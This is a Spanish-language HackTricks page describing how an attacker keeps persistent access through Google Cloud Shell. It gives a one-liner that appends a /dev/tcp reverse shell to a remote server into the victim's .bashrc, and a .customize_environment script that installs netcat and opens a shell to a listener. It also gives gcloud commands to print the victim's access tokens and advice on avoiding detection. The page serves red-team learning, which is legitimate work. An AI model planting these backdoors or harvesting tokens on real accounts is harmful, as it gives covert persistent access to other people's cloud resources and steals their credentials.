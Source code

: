 # GCP - Persistencia de Cloud Shell

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en GitHub.

</details>
{% endhint %}

## Cloud Shell

Para más información, consulta:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Puerta trasera persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) te proporciona acceso a la línea de comandos a tus recursos en la nube directamente desde tu navegador sin ningún costo asociado.

Puedes acceder al Cloud Shell de Google desde la **consola web** o ejecutando **`gcloud cloud-shell ssh`**.

Esta consola tiene algunas capacidades interesantes para los atacantes:

1. **Cualquier usuario de Google con acceso a Google Cloud** tiene acceso a una instancia de Cloud Shell completamente autenticada (las Cuentas de Servicio pueden, incluso siendo Propietarios de la organización).
2. Dicha instancia **mantendrá su directorio de inicio durante al menos 120 días** si no hay actividad.
3. No hay **capacidades para que una organización supervise** la actividad de esa instancia.

Básicamente, esto significa que un atacante puede colocar una puerta trasera en el directorio de inicio del usuario y siempre que el usuario se conecte al GC Shell cada 120 días al menos, la puerta trasera sobrevivirá y el atacante obtendrá una shell cada vez que se ejecute simplemente haciendo:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Hay otro archivo en la carpeta de inicio llamado **`.customize_environment`** que, si existe, se va a **ejecutar cada vez** que el usuario acceda a la **nube shell** (como en la técnica anterior). Simplemente inserta la puerta trasera anterior o una similar para mantener la persistencia siempre que el usuario use "frecuentemente" la nube shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es importante tener en cuenta que la **primera vez que se realiza una acción que requiere autenticación**, aparece una ventana emergente de autorización en el navegador del usuario. Esta ventana debe ser aceptada antes de que el comando pueda ejecutarse. Si aparece una ventana emergente inesperada, podría levantar sospechas y comprometer potencialmente el método de persistencia que se está utilizando.
{% endhint %}

Esta es la ventana emergente al ejecutar `gcloud projects list` desde la terminal en la nube (como atacante) vista en la sesión del usuario del navegador:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Sin embargo, si el usuario ha utilizado activamente la terminal en la nube, la ventana emergente no aparecerá y puedes **recopilar tokens del usuario con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Cómo se establece la conexión SSH

Básicamente, se utilizan estas 3 llamadas a la API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (te hará agregar tu clave pública que creaste localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (te hará iniciar la instancia)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (te dirá la dirección IP de la nube de Google)

Pero puedes encontrar más información en [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referencias

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
